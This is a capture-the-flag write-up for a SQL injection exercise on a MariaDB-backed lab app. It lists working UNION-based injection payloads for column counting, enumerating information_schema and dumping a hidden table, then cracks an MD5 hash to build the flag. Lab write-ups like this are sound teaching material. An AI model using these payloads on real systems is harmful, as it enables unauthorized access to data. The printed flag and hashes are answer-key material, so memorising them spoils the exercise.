

# 02 - SQL Injection

## Walkthrough

### 1. Detect the Vulnerability

Inject a single quote `'` into the **SEARCH MEMBER ID** field. The server returns a **SQL Syntax Error**, which confirms:
- There is a SQL injection vulnerability
- The backend is running **MariaDB**

---

### 2. Find the Number of Columns (UNION Attack)

To perform a UNION-based attack, both SELECT statements must return the same number of columns.
Test by incrementing the number of `NULL` values until the error disappears:

```sql
1 UNION SELECT NULL
1 UNION SELECT NULL, NULL
1 UNION SELECT NULL, NULL, NULL
```

Stop when the error `"The used SELECT statements have a different number of columns"` disappears —
that tells you the exact column count.

---

### 3. Enumerate the Database Structure

Since we are on MariaDB, `information_schema` is the central metadata repository that contains
information about all databases, tables, columns, and privileges on the server.

**List all table names and their column names:**

```sql
1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS;
```

**List all schemas (namespaces) and their table names:**

```sql
1 UNION SELECT table_schema, table_name FROM information_schema.tables;
```

> `table_schema` is the namespace/folder that groups tables together.
> A single schema can contain multiple tables.

---

### 4. Extract the Flag

From the enumeration, we find a new schema `Member_images` containing a table `list_images`
with two columns: `title` and `comment`.

**From the SEARCH MEMBER ID field** (outside the schema, so we specify the full path):

```sql
1 UNION SELECT title, comment FROM Member_images.list_images;
```

**From the IMAGE NUMBER field** (we are already inside the `Member_images` schema):

```sql
1 UNION SELECT title, comment FROM list_images;
```

---

### 5. Decrypt and Format the Flag

The `comment` column gives the following instructions:

> **Decrypt this password → lower all the chars → SHA256 it and it's good!**

Follow these steps:

| Step | Value |
|------|-------|
| Hash from `comment` | `1928e8083cf461a51303633093573c46` |
| Decrypt (MD5) via CrackStation | `albatroz` |
| Lowercase | `albatroz` |
| SHA256 hash | `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` |

The final SHA256 hash is the **flag**.

---

## Summary

Detect injection → Find column count → Enumerate schema → Extract data → Decrypt flag

---

## Screenshot

